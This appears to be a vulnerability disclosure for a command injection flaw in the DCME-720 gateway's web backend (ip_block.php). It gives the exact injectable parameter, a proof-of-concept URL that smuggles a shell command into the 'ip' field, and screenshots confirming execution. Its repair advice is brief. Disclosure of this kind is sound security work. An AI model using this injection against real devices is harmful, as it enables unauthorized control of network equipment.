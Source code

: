 

# Vulnerability overview

The DCME-720 multi-core egress gateway utilizes a high-performance multi-core processor and a dedicated ASIC switching chip. It is a next-generation, high-performance internet egress gateway designed to meet the needs of large user volumes, high traffic volumes, and diverse service types.

A command execution vulnerability exists in its web management backend, allowing attackers to execute arbitrary code and control the device.

Firmware download address: https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# Code audit

The code location is in the device system /usr/local/www/function/audit/newstatistics/ip_block.php

 

![](ip_block-english.assets/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[Splice command];

 

 

 

 

 

# verify

Log in to the web management backend and access the URL where the vulnerability is located:

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](ip_block-english.assets/2.png)

Constructing the payload:

?action=save&switch=1&ip=;echo 123 > 1.txt;

Create a txt file and write a number to it

 

The poc is as follows:
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

Execute (displays that the modification failed but the command was executed successfully)

![](ip_block-english.assets/3.png)

Access the 1.txt file and find that it was created and written successfully

![](ip_block-english.assets/4.png)

 

 

# Repair suggestions

Modify the web backend PHP code to control or filter relevant parameters

 
